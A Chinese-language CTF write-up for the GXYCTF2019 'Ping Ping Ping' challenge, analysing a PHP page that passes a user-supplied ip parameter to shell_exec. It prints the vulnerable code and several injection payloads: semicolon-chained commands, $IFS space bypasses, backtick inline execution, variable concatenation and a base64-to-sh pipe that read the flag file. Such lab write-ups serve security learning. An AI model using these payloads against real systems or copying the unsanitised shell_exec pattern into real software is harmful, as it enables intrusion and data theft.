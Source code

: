 # [GXYCTF2019]Ping Ping Ping
TAG:PHP  命令执行  
## 解题过程：
![20201230103330](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230103330.png)  
推测可能是命令执行相关题目，进行测试  
```/?ip=127.0.0.1;ls```
![20201230104415](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230104415.png)  
尝试查看index.php内容,发现存在空格过滤  
![20201230105223](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230105223.png)
尝试进行过滤绕过  
> %20(space)、%09(tab)、$IFS$9、${IFS}$9、 {IFS}、IFS 

尝试几次发现```$IFS$9```可以成功绕过，成功查看index.php的内容获取到过滤规则    
![20201230110728](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230110728.png)
这里可以构造绕过，或者使用内联执行  
```
/?ip=127.0.0.1;cat$IFS$9`ls`
```
查看源代码获得flag  
![20201230111951](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230111951.png)
## 题目分析  
这是一道典型的PHP命令执行题目,通过分析```index.php```的代码可知
```
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```
此页面通过PHP内置的命令执行函数[shell_exec()](https://www.php.net/manual/zh/function.shell-exec.php)实现了命令执行功能，函数将在命令正确执行之后输出执行结果   
![20201230113637](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230113637.png)
前端传输的参数被```$_GET['ip']```捕获，经过正则过滤后传输给```shell_exec()```，经与```"ping -c 4"```拼接后执行命令  
此时解题的思路已经十分明确，需构造绕过正则匹配过滤的参数进行命令执行获取敏感信息，下面进行过滤函数与正则表达式的分析  
  
此题目中使用了[preg_match()](https://www.php.net/manual/zh/function.preg-match.php)函数进行参数的匹配，此函数将根据搜索模式返回匹配（1）或者不匹配（0），支持正则表达式  
![20201230114603](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20201230114603.png)  
## 正则匹配过滤：
+ 第一次正则匹配：```/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/```  
对传入参数的第一次过滤中，过滤掉了```&```,```/```,```?```,```*```,```<```,```>```,```'```,```"```,```\```,```{```,```}```与```x{00}-x{1f}```代表的字符  
+ 第二次正则匹配：```/ /```  
过滤掉了空格  
+ 第三次正则匹配：```/bash/```  
过滤掉了```bash```字符串  
+ 第四次正则匹配：```/.*f.*l.*a.*g.*/```  
过滤掉含有```f```,```l```,```a```,```g```字符的字符串  
## 针对性的绕过:
+ 管道符的绕过  
为了进行自定义命令执行，需要使用管道符，但是管道符被正则匹配过滤，可以使用```;```进行上一条命令的结束，进而执行下一条自定义的命令
+ 空格的绕过  
执行命令需要空格分隔，可以考虑用字符编码绕过正则过滤实现分隔```%20(space)、%09(tab)、$IFS$9、${IFS}$9、 {IFS}、IFS ```  
+ flag字符过滤的绕过  
使用内联执行：
```
/?ip=127.0.0.1;cat$IFS$9`ls`
``` 
进行字符串拼接：
```
/?ip=127.0.0.1;b=ag;a=fl;cat$IFS$1$a$b.php
```
通过sh命令执行：
```
/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```
如果没有过滤```bash```也可以通过```bash```执行